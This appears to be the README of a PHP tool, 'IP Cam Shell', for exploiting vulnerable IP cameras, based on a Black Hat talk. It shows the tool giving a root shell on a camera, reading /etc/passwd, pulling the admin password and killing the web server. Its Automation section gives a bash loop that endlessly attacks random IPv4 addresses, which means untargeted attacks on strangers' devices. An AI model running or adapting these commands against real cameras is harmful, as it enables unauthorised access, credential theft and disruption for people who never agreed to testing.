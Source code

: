 IP Cam Shell
=======

IPCS is a command line script for testing and exploiting a wide range of IP cameras as demonstrated by Craig Heffner in "Exploiting Surveillance Cameras Like a Hollywood Hacker". See the slides here: https://media.blackhat.com/us-13/US-13-Heffner-Exploiting-Network-Surveillance-Cameras-Like-A-Hollywood-Hacker-WP.pdf

A copy of the slides is included in the repository.

Requirements
=======

 * PHP 5
 * A distribution of Linux. I haven't and won't test this on Windows.

Usage
=======

Basic Usage
-------

Using IPCS is pretty straight forward. You pass the URL to ipcs.php via the -u option. 

```
$ php ipcs.php -u http://192.168.0.3:8080
```

If the camera is vulnerable you'll be dropped in to a "shell" as root and be able to exploit the camera further.

```
$ php ipcs.php -u http://192.168.0.3:8080
Those who do not understand UNIX are condemned to reinvent it, poorly. — Henry Spencer
ipcamshell>
```

It's very much like being logged in to a stripped down Unix server as root.

```
ipcamshell> whoami
root
ipcamshell> id
uid=0(root) gid=0(root)
ipcamshell> ls /
bin
dev
etc
lib
linuxrc
mnt
opt
proc
sbin
scripts
tmp
usr
var
ipcamshell> cat /etc/passwd
root:x:0:0:Linux User,,,:/:/bin/sh
```

Use `quit`, `exit`, or `^C` to exit.

Further Attacks
-------
Of course it wouldn't be very fun without the ability to login and view the camera... 

```
ipcamshell> getadminpass
Username: admin
Password: hunter2
```

If you wish to kill the web server (to prevent someone from accessing the web interface temporarily), run the `killswitch` command. Note that the camera will continue to record regardless of this.



If the camera isn't vulnerable, the server isn't up, or the internet hates you, you'll recieve the following message:

```
Sorry, the server specified isn't vulnerable.
```

Automation
-------

IPCS has the potential to be automated in different ways. This, I'm going to leave to you. The `-c` option won't drop you in to a shell after successfully exploiting a server, and the `-g` option surpresses the "Sorry, the server specified isn't vulnerable." messages for failed attempts.

As an example, the following bash script will forever try to attack randomly generated IPv4 addresses.

```
#!/bin/bash
while true; do export ip=$((RANDOM%256)).$((RANDOM%256)).$((RANDOM%256)).$((RANDOM%256)) && echo "Trying $ip..." && php ipcs.php -c 1 -g 1 -u http://$ip; done;
```

This is slow, and will likely yield nothing without *extremely* good luck. Use your imagination. :)

Note
=======
I do not claim the description or purpose of this tool to be 100% accurate. If you see anything which is incorrect in this document, please submit a pull request or open a new issue.
